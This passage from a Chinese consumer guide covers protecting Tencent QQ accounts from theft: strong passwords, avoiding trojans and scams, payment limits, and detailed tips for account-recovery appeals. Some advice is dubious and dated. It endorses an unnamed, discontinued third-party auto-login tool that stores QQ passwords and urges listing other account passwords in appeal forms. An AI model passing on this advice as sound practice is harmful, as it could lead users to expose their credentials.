QQ 的密码位数一定要超过 8 位，而且最好包含数字+字母+特殊符号，否则以现代计算机的超强计算能力，要想暴力破解你的 QQ 密码简直是易如反掌。而且你最好隔一段时间就更换一次密码。但在你做这些之前一定要保证自己的机器没有木马，否则一样有危险哦。

不要在 QQ 中填入真实的年龄、E-mail、电话等敏感信息，更不能把涉及到你账号敏感信息告诉任何人，还要保护好你申请密码保护的 E-mail，防止被人申诉。

使用最新版本的 QQ，针对 QQ 的攻击工具大都是针对某一版本的，或者较低版本。QQ 在版本上的及时更新，可以很好地预防 QQ 丢失的威胁。有良好的上网习惯，不要随便上小网站，别去点那些天上掉馅饼的免费广告，也不要轻信群里面发的 http://www.xxx.com 网站有免费 QB 的好事。

把系统打好补丁，安装杀毒软件，及时更新病毒库，防止上网的时候中木马。QQ 医生并不能解决所有的问题，只能说能查出大部分的木马，大家不要过分依赖和相信，要及时更新杀毒软件，定时查杀。在比较出名的门户网站下载你需要的东西，下载东西后不要急着使用，先用杀毒软件扫描一下，看是否有木马或者病毒存在。

不要轻易打开陌生人发给你的文件，特别是那些看起来诱人的文件更要格外小心。不要轻易相信在 QQ 群或者其他人发来的无聊信息。比如说给你点了歌啊，让你打什么 XXX 电话收听，千万不要相信，那个电话都是一分钟好几块钱的。

在网吧上网时，注意应该在 QQ 登录界面的“登录模式”中选择“网络模式”。这样在关闭 QQ 的时候，QQ 会自动提醒我们是否删除该号码的登录记录，点“是”后，我们的 QQ 信息就不会留在网吧的电脑上了。最好把以你的 QQ 号码命名的文件夹整个删除，而且要清空回收站。如果在你使用 QQ 的时候，QQ 突然在其他地方登录，请立即修改密码，如果密码已经被修改，请用密码保护修改；如果密码保护已经遗忘，那么你可以到 QQ 账户安全服务中心（https://account.qq.com/cgi-bin/showMain）进行申诉。

申请密码保护。这样如果密码被破解或自己忘记了还可以利用密码保护功能取回来。当然一般情况下，QQ 的密码是很难被破解的。QQ 的更新速度也算及时，其加密算法的改进大大降低了威胁。

为避免你的 QQ 被盗后丢失 Q 币，到腾讯充值中心（http://pay.qq.com/）的“管理账户”里面设置账户支付密码（支付密码用来对您的个人账户加强保护，自己在设置好之后牢记。在设置每次消费限额与每日限额消费时，将要求您输入支付密码）；设置账户消费限额（有单次限额和每日限额，超过限额将不允许继续消费或要求输入支付密码，你可以自行设置限额以加强账户安全）。具体说明请查阅这个网站。

遇到恶意网站、恶意 QQ 时，请到相关服务部门投诉。如果你对 QQ 有什么问题，想进行咨询或投诉，请尽量把你所遇到的问题描述得详细和全面一点，这样有关人员才能及时给予你最快、最满意的答复。如果你提出的问题很模糊、不全面，像“我的 QQ 被盗了”“我的 QB 不见了”等这样是不行的。腾讯几亿的用户，工作量十分大，如果你描述得不全面，很难及时给你一个答复，而且发帖的人很多，有可能一会儿你的帖子就沉没在茫茫帖海之中。所以在进行咨询、投诉时尽量把问题描述得全面一些，这样有关人员才能为你更好地服务。

## 第七章 QQ 终极防护

使用 QQ 登录器进行保护 QQ 也是不错的选择，而且还省去了输入 QQ 密码的麻烦，只需要轻轻点几下就可以登录 QQ。给大家一款我一直使用的 QQ 登录器，本来想从网络上找几款比较好用，没想到一个比一个烂，而且还有个品质低劣的人捆马或者捆绑流氓软件，还好我用这款绝对好用，而且还是绿色版的。


打开这款登录器后，程序会提示你是否打开自动更新，而且在第一次启用登录器的时候是需要设置一个用于管理的设置密码（图1）。

进入程序后，需要先对登录器进行设置，因为当前登录器还不知道 QQ 程序在哪个地方。打开“设定”界面（图2），点“QQ”然后点“浏览”选择 QQ 的安装路径。可能有些朋友要问了，如果使用的是珊瑚虫版的 QQ 呢？不用担心，只需要在选择 QQ 安装路径的时候直接指向 CoralQQ.exe 即可，而且不光 QQ 可以被保护，它还支持 TM 和 QQ 游戏哦。


回到主界面，这个时候 QQ 列表里面还是空的，因为没有添加需要登录的 QQ。打开“账号管理器”界面（图3），进入的时候需要输入刚才启动时设置的管理密码。点击“新建”（图4），因为是添加 QQ，所以“执行模式”选择 QQ，然后将 QQ 号码和 QQ 密码都输入进去。而且还支持自定义名字，大家 QQ 多了就分不出来了，这个功能可以帮助你区分。添加完成后，关闭账号管理器回到主界面。


这个时候就可以使用登录器进行登录了，首先在 QQ 号码前面打勾（图5），然后点“启动账号”，QQ 就可以自动登录了。如果你的 QQ 比较多的话，可以一次选很多个 QQ 同时登录。“启动 QQ”按钮是为了方便你单独进行 QQ 登录时使用的。

谈谈我自己的感想吧，使用这个登录器很长时间了，一直感觉很不错，省事省力，而且安全。只不过现在这款软件已经停止开发了，但是现在这个版本已经够用了。

### 7.3 QQ 终极申诉

对待电话客服要和蔼，这很重要，因为你的 QQ 能否找回来有很大程度上是取决于你对待电话客服的态度。你可以尽量多用“您好，请，麻烦，我能理解，但我真的很着急！辛苦您了”这样的字眼，相信你与客服之间会有一段愉快的通话的。如果这个客服实在不识抬举，总是打官腔，可能是因为他在接上一个电话的时候和客户谈得不是很愉快，从而影响到了你，没关系，别着急，礼貌地挂掉电话后再拨一次，换个客服，你肯定能遇见一个态度和蔼的，记得通话结束之前再问一次对方的客服工号。等号码回来了，我们该投诉的投诉，该赞扬的赞扬！出来混，迟早是要还的。被盗号码 QQ 资料、历史密码、历史好友、用户个人身份资料、原有密码保护资料，这些资料只要填写半年前就可以了。若原有密码保护或证件号码忘了，就直接在申诉表里注明“忘记了”。很多人号码申诉时都如实填写了自己相关真实的证明资料，却老是申诉被拒绝，其中很大的原因是填写资料时提供的证明资料没有足够说服力（特别是号码申诉的“其他证明资料”，我想这个问题一定困扰很多人，怎样填写一些只有你本人知道而别人无法得知的资料，这样的资料才更有说服力）。

- 1. 该号码何处申请（如：声讯台、网站、QQ 客户端或手机申请等。如果是会员或 QQ 行用户顺便写上支付方式）；
- 2. 该号码是否用手机绑定过（有的话就填上曾经绑定过的手机号码）；
- 3. QQ 游戏（如：你是否用过 QQ 游戏里面的双倍积分卡等游戏道具）；
- 4. 如果忘了原始密码，就填写一个申请旧密码保护时的密码，并注明是申请旧密码保护时的密码（当然，这个要在你记得的前提下，如果不记得可以不填）；
- 5. 是否赠送过别人 QQ 秀或某些腾讯的业务，有的话填上并注明获赠人的 QQ 号码（当然，这里最好能填 3 个月前的，因为盗号者可以用你密码在 QQ 账户里查到你最近 3 个月 Q 币消费记录，填早的更有说服力）；
- 6. 你的网络硬盘密码、通讯录密码、QQ 账户密码（这些密码也很有说服力，我想若不是号码的主人，就不大可能知道这些了吧。除非你把那些密码设得和你 QQ 密码一样）；
- 7. 如果你是会员，你还可以填写你 QQ 的客服电话 VIP 服务密码；
- 8. 该号码是否做过会员，有的话填上大体的时间，在会员服务期间是否克隆过好友，从哪个号码克隆的好友（如果有，这个也是个很好的证明）；
- 9. 是否向哪个群或 QQ 游戏家族捐献过 Q 币（有的话，还要填写群号码或家族名称）；
- 10. 是否获得别人赠送的 QQ 秀或腾讯的一些服务；
- 11. 提供你 QQ 曾用过的昵称（要是号码是你的，以前的昵称总知道吧，要是不完全记得完整的昵称，至少也要提供以前昵称部分“文字”）；
- 12. 有 QQ 宠物的可以填写自己宠物领取的方式（如：七夕情侣宠物蛋活动、银行卡支付、好友赠送的或曾经赠送给哪些好友宠物等）；
- 13. 是否用 QQ 梦想地带的积分换过奖品或某些增值服务（有的话写清兑换的奖品送于何人或是自己使用）；
- 14. 是否申请过蓝钻、红钻、黄钻等业务，并写上这些服务的获得方式和时间（如：QQ 账户支付、手机支付、积分兑换或好友赠送的以及服务开通的大致时间）；
- 15. 是否上传过聊天记录（这些腾讯公司就有存档的，是十足的证明资料）；
- 16. 如果你是会员的话，是否参加过会员活动。

还有一点很重要——就是大家在有条件前提下申请尽量多的业务（大家可能说那需要很多 QB，其实免费的也有很多的），多去参加腾讯搞的活动，什么活动都行！因为只要你有参加，腾讯就会有记录！如果你不是本人，谁会知道你的 QQ 参加过什么活动呢！这是证实的好资料，要是获得了什么奖品或物品，就注明。

如：我曾经参加过 QQ 音速内测种子活动，并在活动中获得种子！多申请密码，如个人账号/网络硬盘/申请拍拍付财通之类的，这样申诉的时候就有更多的资料可写。

把自己现在的身份资料去 my.qq.com 和拍拍网的写成一样的，如身份证号/地址之类的，记住一定要一样，因为现在申诉也会验证到那些资料，只要你以前写的证件号不是乱填的就可以了！

想办法搞一个月的会员，变成会员后随便找一个 QQ 克隆好友，再自己开两个 QQ，跟你要申诉的 QQ 乱哈拉几句，再上传聊天记录，因为这两个腾讯都会留档，绝对是对申诉最有用的证据！

建议务必填写原始密码、原始资料，也就是刚申请 QQ 时填写的密码及昵称，然后就是对前面所填资料的一个补充描述，如：QQ 大约是什么时间申请的，最早加的几个好友是谁，历史密码大概的设置更改时间，密码丢失情况的一些描述，以及其他一些有效证据的提供。

希望大家都能妥善地保管好自己的 QQ，填写申诉表的时候一定要冷静、详细、准确，这样才能提高申诉成功的机会。

## QQ 宝典 3

